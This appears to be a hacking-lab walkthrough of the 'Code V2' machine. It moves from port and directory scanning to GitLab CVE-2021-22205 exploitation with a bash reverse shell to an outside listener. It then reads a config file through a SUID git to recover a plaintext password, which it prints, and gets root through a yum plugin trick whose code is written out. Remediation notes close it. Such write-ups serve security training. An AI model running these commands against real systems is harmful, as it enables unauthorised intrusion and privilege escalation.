#  Code V2 - Virtual Hacking Lab

| Info          | Details                           |
| ------------- | --------------------------------- |
| Platform      | Virtual Hacking Lab               |
| Difficulty    | Advanced                          |
| Target IP     | 10.11.1.148                       |
| OS            | Linux                             |
| Vulnerability | CVE-2021-22205 (GitLab RCE)       |
| Tools Used    | Nmap, Gobuster, Searchsploit, Git |

## Methodology

The assessment followed the standard penetration testing lifecycle:

1. Reconnaissance — Active port scanning and service fingerprinting with **Nmap**.    
2. Enumeration — Web application and directory enumeration with **Gobuster**.
3. Vulnerability Identification — Version-based vulnerability research and **Searchsploit** queries.
4. Exploitation — Public exploit adapted and executed to gain initial foothold.
5. Post-Exploitation — Local enumeration for privilege escalation vectors.
6. Privilege Escalation — SUID abuse and sudo **GTFOBins** technique for root.
7. Reporting — Findings documented with evidence and remediation guidance.


## Environment Setup

A structured working directory was created prior to enumeration to organize output logs and artefacts throughout the engagement.

```bash
mkdir code_v2
cd code_v2
mkdir nmap gobuster exploit
touch users.txt creds.txt
echo 'Testing....1...2...3...' > test.txt
```

## Network Scanning

A full TCP port scan was conducted with service version detection and default Nmap scripts enabled. The -Pn flag skipped host discovery to ensure all ports were scanned regardless of ICMP response. Results were saved for reference.

```bash
ip='10.11.1.148'
## Regular Scan + Version
sudo nmap -Pn -n $ip -sC -sV -p- --open -oN nmap/nmap.log
```

Reminder:
1. Check all the version
2. Check all the open ports



**Results:**

| Port | Service | Version                |
| ---- | ------- | ---------------------- |
| 3000 | http    | Golang net/http server |
| 8060 | http    | nginx 1.18.0           |
| 9094 | unknow  | -                      |

## Web Enumeration

Web Application Enumeration: Browsing to port 3000 revealed a Grafana v7.4.2 login page



Gobuster was used to enumerate directories on both HTTP services. Standard and deep wordlists were used to maximize coverage.

``` bash
# Gobuster
gobuster dir -u http://$ip:3000 -w /usr/share/wordlists/dirb/common.txt -o gobuster/dir.log -t 42 -b 301 400
```



Results: Didn't show any interested directory here.

```bash
### Deep Directory attack
gobuster dir -u http://$ip:3000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster/deep.log -t 42
```



**Results**: Also not shown interested directories

Web Application Enumeration 2: on `http://10.11.1.148/users/login`. 



**Results:** revealed a GitLab login interface, despite port 80 being closed.

Lets move to the next phase, searching exploit for `Grafana v7.4.2` and `Gitlab`

On a github website found an exploit for gitlab might be exploitable

# Public Exploit (CVE-2021-22205)

The exploit was obtained and executed:

```bash
git clone https://github.com/mr-r3bot/Gitlab-CVE-2021-22205.git

python3 exploit.py -t http://10.11.1.148 -c "bash -i >& /dev/tcp/172.16.1.1/4444 0>&1"
```

**Results**: Successfully got a local remote shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
whoami
id
```



**Results:** The local shell identified as `git` user.
 
# Local Shell Enumeration

```bash
#try weak password 
find / -perm -u=s -type f 2>/dev/null
```



**Results**: Showing `/usr/bin/git` have the SUID permission for reading higher privilege file.

```bash
/usr/bin/git diff /dev/null /etc/gitlab/gitlab.rb
```



**Results:** found an admin password for Grafana `admin::C0d3KODe01!`

## Lateral Movement

```bash
su code
C0d3KODe01!
```



**Results:** Successful lateral move to another users `code`

```bash
sudo -l
```



**Results:** (ALL) PASSWD: /usr/bin/yum

## Privilege Escalation

- Exploited `yum` via GTFOBins
- Executed malicious plugin to spawn shell

```bash
cat >/tmp/x<<EOF
[main]
plugins=1
pluginpath=/tmp
pluginconfpath=/tmp
EOF

cat >/tmp/y.conf<<EOF
[main]
enabled=1
EOF

cat >/tmp/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/bash','/bin/bash')
EOF

sudo /usr/bin/yum -c /tmp/x --enableplugin=y list
```



Results: Success getting root shell, and retrieve flags

```bash
whoami
id
date

cat /root/key.txt
```

## **Remediation**

- Patch GitLab to mitigate CVE-2021-22205
- Remove sensitive credentials from configuration files
- Restrict SUID binaries to necessary programs only
- Apply least privilege principle for `sudo` permissions
- Monitor and audit privileged command execution